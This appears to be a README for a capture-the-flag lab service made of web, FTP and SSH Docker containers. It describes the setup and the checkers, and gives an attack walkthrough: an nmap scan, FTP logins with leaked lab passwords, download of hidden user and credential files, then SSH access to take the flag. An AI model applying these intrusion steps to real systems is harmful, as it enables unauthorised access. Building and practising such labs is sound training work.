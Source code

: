 # Service definition:
- We have three dockers: 
1. An Ubuntu (latest version) with OpenSSH server. This docker contains the flag of the competition.
2. One who has install apache service. This server has an index.html with information about a user.
3. A Debian (latest version) with a FTP server. This server has different files stored in user's home and in the tmp the folder.
    - userlist: hidden file with the information of system users with its passwords.
    - ssh_users: information about users that has access to a SSH server.
The attacker has to enumerate the network to find an FTP server and access to it using the information availabe (hidden) in the web page stored in the web server.
The flags are stored in that SSH docker's file and attacker has to let them in his T-Submission machine. 

# Service implementation:
web docker is configured to take a copy index.html file from the host machine, letting it in '/usr/local/apache2/htdocs/index.html'. 
ssh docker is configured attending to the following tips:
  - It has openssh-server installed and started. 
  - It has a user called 'loki' whose password is 'K7l8M9n0'. 
ftp docker is configured attending to the following tips:
  - It has vsftpd installed.
  - It copies the following files from host machine:
    + vstfpd.conf --> /etc/vsftpd.conf: the vsftpd configuration file. This configuration allows the users listed in the file called vsftpd.chroot_list to move outside their home directory.
    + chroot_list --> /etc/vsftpd.chroot_list: this file lists the users that can move outside their home.
    + .userlist --> /home/test/.userlist: hidden file that contains a list of users and passwords.
    + .ssh_users --> /tmp//tmp/.ssh_users: hidden file that contains a list of user that have access to the SSH server.
It is also configured for creating /var/run/vsftpd/empty directory not to give an access error.
Besides, it must create 4 users and change the permissions of their respective home directories to 700.
Finally, it sarts the server through vsftpd daemon.
*Notice that in docker-compose.yml file "restart: unless-stopped" have been stated because ftp docker wasn't stable and went down several times without any apparent reason (normally, just after closing a connection, but not always). So, unless we manually execute "docker stop catchme_ftp_1", it will automatically start again.

-Flags: 
    Flags will be stored in 'pasapasa_ssh_1' docker's '/tmp/flags.txt' file.

# Checkers check
- Web server is active and working.
  - Port TCP/80 is openned.
  - When the page index.html is requested it responds with a 200.
  - The apache server has not been updated.
  - The index.html file has not been changed.
* Checks done:


- FTP server is active and working:
  - Port 21 is openned.
  - User odin has access to it.
  - vsftpd.chrrot_list has not been changed.
  - .userlist file has not been changed.
  - .ssh_users file has not been changed.
* Checks done:

- SSH server is active and working
* Checks done
 


# Attack example
Attack from TEAM1 to TEAM2:
- Analyze team2 network using nmap.
    nmap 10.0.2.101
    PORT   STATE SERVICE
      21/tcp open  ftp
      22/tcp open  ssh
      80/tcp open  http
- Analyze the web and obtain this user and password: test:U1v2W3x4
- Try this user in the ssh and FTP server. In the FTP server download .userlist file.
    ftp 10.0.2.101
    user: test
    password: U1v2W3x4
    ftp>ls -la
drwx------    1 1004     1004         4096 Dec 20 10:31 .
drwx------    1 1004     1004         4096 Dec 20 10:31 ..
-rw-r--r--    1 1004     1004          220 Mar 29  2024 .bash_logout
-rw-r--r--    1 1004     1004         3526 Mar 29  2024 .bashrc
-rw-r--r--    1 1004     1004          807 Mar 29  2024 .profile
-rw-r--r--    1 0        0             162 Dec 20 10:31 .userlist
    ftp>get .userlist
- Try those users in the FTP server. You look that the one that can move around the different directories is odin.
    ftp 10.0.2.101
    user: odin
    password: e5f6g7h8
    ftp> cd ..
    250 Directory successfully changed.
    ftp> pwd
    Remote directory: /home
- Analyze different directories. In the temporary directory usually it appears to be some important files. In this case in /tmp/ we have hidden file named .ssh_users. Doenload this file in order to analyze.
    ftp> cd /tmp/
    250 Directory successfully changed.
    ftp> ls -la
    229 Entering Extended Passive Mode (|||64770|)
    ftp: Can't connect to `10.0.2.101:64770': Connection refused
    200 EPRT command successful. Consider using EPSV.
    150 Here comes the directory listing.
    drwxrwxrwt    1 0        0            4096 Dec 20 10:31 .
    drwxr-xr-x    1 0        0            4096 Dec 20 10:31 ..
    -rw-r--r--    1 0        0               4 Dec 20 10:31 .ssh_users
    226 Directory send OK.
    ftp> get .ssh_users
    local: .ssh_users remote: .ssh_users
    200 EPRT command successful. Consider using EPSV.
    150 Opening BINARY mode data connection for .ssh_users (4 bytes).
    100% |***************************************************************************************************************************************************************|     4       69.75 KiB/s    00:00 ETA
    226 Transfer complete.
    4 bytes received in 00:00 (8.87 KiB/s)
- Use the user that is to connect to ssh. Remember that ssh port is 8822.
    ssh -p 8822 loki@10.0.2.101
- Analyze the content of this server to find the flag that is the temporary file.
- Attacker has to let the flag in his T-Submission machine, in a file with .flag extension located at /root directory (as, for example, /root/flag.flag). 





     



